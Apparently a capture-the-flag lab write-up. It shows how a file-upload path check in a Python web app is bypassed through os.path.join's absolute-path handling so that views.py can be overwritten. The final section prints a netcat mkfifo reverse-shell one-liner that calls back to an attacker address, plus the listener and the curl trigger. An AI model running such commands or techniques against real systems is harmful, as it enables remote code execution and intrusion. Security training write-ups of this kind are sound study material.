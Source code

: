 ### Bypassing File inclusion sanitization

#### Testing parameters
With no filename, there is an error showing the full path
![[Pasted image 20240330200420.png]]

Using *..* we see an error too nut it's recongnized:
![[Pasted image 20240330200527.png]]
With *../* it's not the case. Same with *....//*
![[Pasted image 20240330200554.png]]

#### Testing in python function os.path.join

It joins strings to create a path. *get.cwd* gets the current path os the host
`os.path.join(os.getcwd(),"public","uploads","test.txt")`

![[Pasted image 20240330200848.png]]

However if we put in the last parameter */test.txt*, the function doesn't consider the previous path
![[Pasted image 20240330201022.png]]

In the application, changing the name of the directory by starting with */*, we probably upload the file in a desire path.

#### Testing in the application
It seems it worked
 ![[Pasted image 20240330201436.png]]

So, we can try now to upload a modified *views.py* file in */app/app* directory to replace the old one existing.

#### Getting a Shell
Creating a new path to be called by curl, we can take avantage os *os* library to use *os.system* and by using a command to generate a reverse shell with netcat

Ref: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

For old versions:

![[Pasted image 20240330202233.png]]
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.70 1234 >/tmp/f`

![[Pasted image 20240330203829.png]]

Loading the file *views.py* file by chanfging his name to */app/app/views.py* - absolute path of application files. It seems it worked
![[Pasted image 20240330202759.png]]
listening of port 1234 and doing a curl the */shell* path
`nc -lnvp 1234`
`curl http://10.10.11.164/shell`

